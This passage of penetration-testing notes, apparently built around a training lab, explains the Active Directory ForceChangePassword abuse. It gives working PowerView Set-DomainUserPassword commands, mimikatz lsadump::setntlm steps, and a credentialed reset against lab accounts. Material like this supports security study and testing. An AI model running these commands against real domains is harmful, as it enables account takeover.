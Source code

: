 By right-clicking on the line between  two objects, a menu will pop up.



### ForceChangePassword


![](img/dacl01.png)

This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.

#### Change password (plaintext)
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```powershell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 

Set-DomainUserPassword -Identity $TargetUser -AccountPassword $NewPassword

runas /$TargetUser:[domain\$TargetUser] cmd.exe
```

We can also use mimikatz:

```powershell
.\mimikatz.exe
privilege::debug
lsadump::setntlm
```

#### Change password using SecureString Object

```powershell
# Wley will change the password of damundsen. First, open Powershell as Wley
# Creating a PSCredential Object
$SecPassword = ConvertTo-SecureString '$wleyPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

# Creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
cd C:\Tools\
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
